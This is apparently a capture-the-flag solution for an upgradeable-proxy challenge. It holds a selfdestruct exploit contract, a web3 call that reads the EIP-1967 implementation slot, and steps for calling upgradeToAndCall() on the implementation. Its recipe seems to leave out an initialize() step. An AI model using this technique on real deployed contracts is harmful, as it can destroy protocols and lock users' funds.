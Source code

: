 Deploy the following contract to the same network
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Engine {
    function initialize() external;
    function upgradeToAndCall(address, bytes memory) external;
}

contract Exploit {
    function exploit () public {
        selfdestruct(payable(msg.sender));
    }

}
```
Get the address of the implementation contract
```javascript
await web3.eth.getStorageAt(contract.address, '0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc')
```

Interact directly with the implementation contract, calling upgradeToAndCall(), passing the address of the Exploit contract, and the selector for the exploit() method
`0x63d9b770`
